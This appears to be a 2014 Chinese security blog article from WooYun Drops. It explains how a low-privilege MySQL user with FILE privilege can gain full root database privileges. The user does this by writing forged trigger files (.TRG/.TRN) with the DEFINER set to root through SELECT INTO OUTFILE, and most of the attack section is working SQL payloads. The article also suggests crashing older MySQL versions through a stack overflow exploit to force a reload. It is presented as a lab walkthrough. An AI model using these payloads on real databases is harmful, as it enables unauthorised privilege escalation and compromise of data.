









# Mysql Trigger

2014/10/31 10:22 | [darksn0w](http://drops.wooyun.org/author/darksn0w "由 darksn0w 发布") | [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章") | 占个座先 | 捐赠作者

## 0x00 什么是触发器

* * *

触发器（trigger）是数据库提供给程序员和数据分析员来保证数据完整性的一种方法，它是与表事件相关的特殊的储存过程，它的执行不是由程序调用，也不是手工启动，而是由事件来触发，当对一个表进行操作（insert，delete，update）时就会激活它执行。触发器经常用于加强数据的完整性约束和业务规则等。

## 0x01 问题描述

> a)通过 Mysql 触发器提权仅仅能获取一个 Mysql
> 
> Root 权限的 Mysql 账号，并不是系统提权(系统提权取决于包括 mysql 是不是以 root 方式运行的等等很多因素)。
> 
> b)渗透过程中所能利用的触发器提权中，需要提权的账号需要有"File"权限，或者是有能力向 mysql 的目录下写入文件。
> 
> c)Mysql 的触发器有 6 种类型分别是 After insert，After delete，After update 和 Before
> 
> insert，Before delete，Before update。

在以下版本测试成功：

> a) CentOS 5.5 && Mysql-5.0.51a
> 
> b) Win2003 x86 && Mysql-5.5.24

## 0x02 工作原理

* * *

a) 因为 MySQL 的触发器以明文文本的形式保存最对应库的目录下面，形式为触发器文件*.TRG 和触发器描述文件*.TRN，可以通过 select into outfile 方式写入(所以需要"File"权限)。

b) Mysql 在定义触发器的时候有一个定义触发器执行角色的字段 DEFINER，默认的此字段与建立触发器的角色相同(即与'CREATE DEFINER'字段相同)。如果我们可以上传一个执行角色为 root 的触发器，那么就能以 root 权限执行触发语句。

c) 根据触发器的原理，我们本地新建一个触发器，然后修改相关配置，如触发角色，触发条件，触发后执行语句等等，制作 exp 实现提权。

## 0x03 实验环境

* * *

Win2003x86 && Mysql-5.5.24，默认安装 Mysql，导入一个 xxxCMS 的数据库"cms"，并为此数据库建立一个普通权限的用户"test" Test 账号添加方式：

```
grant all privileges on cms.* to test@localhost identified by '1234'; 
```

root 执行 show databases;的结果：



root 执行 select User,Host from mysql.user;的结果：



test 执行 show databases;



test 执行 use cms;并查询此数据库上存在的触发器 show triggers;



## 0x04 实验过程

* * *

a)本地生成触发器文件： 1.首先在本地的 Mysql 上建立正常的触发器，建立过程：

```
mysql> delimiter //   
            /** 此处定义操作块，在操作块结束前即使遇到;也不去执行，直到遇到结束符(//) **/
mysql> create trigger rootme after update on cms_users for each row 
            /** 建立一个作用于表 cms_users 的、类型为 After update 的、名为 rootme 的触发器，for each row 意思是每触发一次，就执行一次执行语句 **/
mysql> begin update mysql.user set Select_priv='Y',Insert_priv='Y',Update_priv='Y',Delete_priv='Y',Create_priv='Y',Drop_priv='Y',Reload_priv='Y',Shutdown_priv='Y',Process_priv='Y',File_priv='Y',Grant_priv='Y',References_priv='Y',Index_priv='Y',Alter_priv='Y',Show_db_priv='Y',Super_priv='Y',Create_tmp_table_priv='Y',Lock_tables_priv='Y',Execute_priv='Y',Repl_slave_priv='Y',Repl_client_priv='Y',Create_view_priv='Y',Show_view_priv='Y',Create_routine_priv='Y',Alter_routine_priv='Y',Create_user_priv='Y',Event_priv='Y',Trigger_priv='Y',Create_tablespace_priv='Y',ssl_type='Y',ssl_cipher='Y',x509_issuer='Y',x509_subject='Y',max_questions='Y',max_updates='Y',max_connections='Y' where User='test';
            /** 默认格式 begin 为开头加上触发后执行的语句，此处语句为执行修改 mysql.user 表中 test 用户的权限的操作 **/
mysql> end;    /** 触发器定义结束标志 **/
mysql> //      /** 操作块结束标志，闭合开头定义的操作块 **/ 
```

以上 sql 语句执行完毕就会在数据库 cms 的目录下生成两个文件：rootme.TRN 和 cms_users.TRG。

打开文件，发现 DEFINER 字段为：test@localhost

我们将其改为 root@localhost，使此触发器触发后执行角色为 root。 将这两个文件作为后面的提权 Exp 保留下来。

b)使用 test 用户登陆 Mysql，并查询此数据库上存在的触发器：


经过查询触发器为空，我们把前面我们本地生成好的触发器文件上传到对应的数据库目录下，即 cms 目录下：

```
/** 上传可以使用 select * into outfile 方式或者其他方式 **/
/**   TRG 文件   **/
/**   SELECT 'TYPE=TRIGGERS' into outfile'C:wampbinmysqlmysql5.5.24datacmsrootme.TRG' LINES TERMINATED BY 'ntriggers='CREATE DEFINER=`root`@`localhost` trigger rootme after update on cms_users for each rownbegin nUPDATE mysql.user SET Select_priv='Y', Insert_priv='Y', Update_priv='Y', Delete_priv='Y', Create_priv='Y', Drop_priv='Y', Reload_priv='Y', Shutdown_priv='Y', Process_priv='Y', File_priv='Y', Grant_priv='Y', References_priv='Y', Index_priv='Y', Alter_priv='Y', Show_db_priv='Y', Super_priv='Y', Create_tmp_table_priv='Y', Lock_tables_priv='Y', Execute_priv='Y', Repl_slave_priv='Y', Repl_client_priv='Y', Create_view_priv='Y', Show_view_priv='Y', Create_routine_priv='Y', Alter_routine_priv='Y', Create_user_priv='Y', ssl_type='Y', ssl_cipher='Y', x509_issuer='Y', x509_subject='Y',max_questions='Y', max_updates='Y', max_connections='Y' WHERE User='test';nend'nsql_modes=0ndefiners='root@localhost'nclient_cs_names='gbk'nconnection_cl_names='gbk_chinese_ci'ndb_cl_names='utf8_general_ci'n';    **/
/**   TRN 文件   **/
/**   SELECT 'TYPE=TRIGGERNAMEntrigger_table=rootme;' into outfile 'C:wampbinmysqlmysql5.5.24datacmscms_users.TNG';   **/ 
```



再次查询 Triggers：



发现触发器已经写入，前面我们写的触发类型是 after update，作用于表 cms_users，所以我们这里我们 update cms_users 这个表来触发。 触发之前 mysql.user 表：



update cms_users 这个表触发执行：



触发之后 mysql.user 表：



至此，"test"用户所拥有的权限跟"root"用户拥有的权限一致。

文中部分位置"有可能"出现"不识别"的情况,比如上传文件后仍然查询不到触发器，比如触发了触发器修改了 test 的权限后发现并未生效。此时需要重启数据库重新加载配置，至于重启数据库的方式嘛，可以借鉴社工思路。Mysql5.0 版本之前的可以利用之前爆出来的栈溢出漏洞造成 MySQL Crash 重启，达到重新加载配置文件的目的。

这个栈溢出的原理是使用一个没有 grant 权限的用户做一个虚假的 grant 操作，而这个操作是对一个根本不存在但很长(如下攻击实例是 10000 字符长度的库名，实际达到 284 个时就会触发)库进行赋权。 http://www.exploit-db.com/exploits/23076/

[文中提到的两个文件](http://drops.wooyun.org/wp-content/uploads/2014/10/文中提到的两个文件.zip)

版权声明：未经授权禁止转载 [darksn0w](http://drops.wooyun.org/author/darksn0w "由 darksn0w 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [SqlServer 2005 Trigger](http://drops.wooyun.org/tips/3464)
*   [Webscan360 的防御与绕过](http://drops.wooyun.org/tips/3790)
*   [waf 绕过的技巧](http://drops.wooyun.org/tips/132)
*   [使用 sqlmap 中 tamper 脚本绕过 waf](http://drops.wooyun.org/tools/4760)
*   [CentOS 6.2 下安装基于 Suricata + Barnyard 2 + Base 的⼊侵检测系统](http://drops.wooyun.org/tips/413)
*   [Volatility FAQ](http://drops.wooyun.org/papers/2854)